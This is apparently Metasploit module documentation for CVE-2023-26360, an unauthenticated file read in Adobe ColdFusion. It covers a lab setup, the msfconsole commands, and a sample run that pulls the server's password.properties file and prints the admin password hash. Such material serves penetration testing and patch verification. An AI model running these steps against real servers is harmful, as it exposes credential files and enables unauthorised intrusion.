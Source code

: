 ## Vulnerable Application
This module leverages an unauthenticated arbitrary file read vulnerability due to deserialization of untrusted data
in Adobe ColdFusion. The vulnerability affects ColdFusion 2021 Update 5 and earlier as well as ColdFusion 2018 Update
15 and earlier. For a full technical analysis of the vulnerability read the
[Rapid7 AttackerKB Analysis](https://attackerkb.com/topics/F36ClHTTIQ/cve-2023-26360/rapid7-analysis).

## Options
To successfully read back the contents of an arbitrary file, you must set the modules `CFC_ENDPOINT` option to a valid
ColdFusion Component (CFC) endpoint on the target server. You must also set the `CFC_ENDPOINT` option to the name of a
remote method from that `CFC_ENDPOINT`. While the vulnerability is triggered regardless of remote method begin invoked,
in order for ColdFusion to emit the `TARGETFILE` contents in the HTTP response, the remote method invoked must return
a result. If the CFC_METHOD requires parameters, they can be provided via the `CFC_METHOD_PARAMETERS` option. By default
a CFC endpoint and method from the ColdFusion Administrator (CFIDE) are provided, which is accessible in many but not
all configurations.

## Testing
To setup a test environment, the following steps can be performed.
1. Setup a Windows Server 2022 VM.
2. Download the [ColdFusion 2021
Update 5](https://cfdownload.adobe.com/pub/adobe/coldfusion/2021/cfinstaller/cf2021u5/ColdFusion_2021_GUI_WWEJ_win64.exe)
installer and install it.
3. Configure the ColdFusion server for production use and enable the Secure Profile during setup.
4. If the default CFIDE endpoints are not accessible (e.g. The server is configured with a Secure profile), install a 
web application on top of ColdFusion in order to expose CFC endpoints. Alternatively, create a test CFC endpoint
called `testing.cfc` in the `wwwroot` folder with the following contents:
```
component testing {
	
	remote String function foo()  { 

		return "Hello from foo";
	}
}
```
5. Follow the verification steps below.

## Verification Steps
1. Start msfconsole
2. `use auxiliary/gather/adobe_coldfusion_fileread_cve_2023_26360`
3. `set RHOSTS <TARGET_IP_ADDRESS>`
4. `set CFC_ENDPOINT /testing.cfc`
5. `set CFC_METHOD foo`
6. Optionally `set CFC_METHOD_PARAMETERS param1=foo, param2=bar` if the CFC_METHOD requires parameters.
7. `set TARGETFILE ../lib/password.properties`
8. `set STORE_LOOT false` if you want to display file on the console instead of storing it as loot.
9. `run`

## Scenarios
### Adobe ColdFusion 2021 Update 5 on Windows Server 2022
```
msf6 auxiliary(gather/adobe_coldfusion_fileread_cve_2023_26360) > show options

Module options (auxiliary/gather/adobe_coldfusion_fileread_cve_2023_26360):

   Name                   Current Setting             Required  Description
   ----                   ---------------             --------  -----------
   CFC_ENDPOINT           /testing.cfc                yes       The target ColdFusion Component (CFC) endpoint
   CFC_METHOD             foo                         yes       The target ColdFusion Component (CFC) remote method name
   CFC_METHOD_PARAMETERS                              no        The target ColdFusion Component (CFC) remote method parameters
                                                                 (e.g. "param1=foo, param2=bar")
   Proxies                                            no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                 172.23.13.12                yes       The target host(s), see https://docs.metasploit.com/docs/using
                                                                -metasploit/basics/using-metasploit.html
   RPORT                  8500                        yes       The target port (TCP)
   SSL                    false                       no        Negotiate SSL/TLS for outgoing connections
   STORE_LOOT             false                       no        Store the target file as loot
   TARGETFILE             ../lib/password.properties  yes       The target file to read, relative to the wwwroot folder.
   VHOST                                              no        HTTP server virtual host

msf6 auxiliary(gather/adobe_coldfusion_fileread_cve_2023_26360) > run
[*] Running module against 172.23.13.12

[*] #Tue Mar 28 01:33:23 PDT 2023
password=30160D97731079B7ACCF7BCFAD049FCCCA3F855318037AC09DC00FFD52A29F5C
rdspassword=
encrypted=true

[*] Auxiliary module execution completed
msf6 auxiliary(gather/adobe_coldfusion_fileread_cve_2023_26360) > 
```
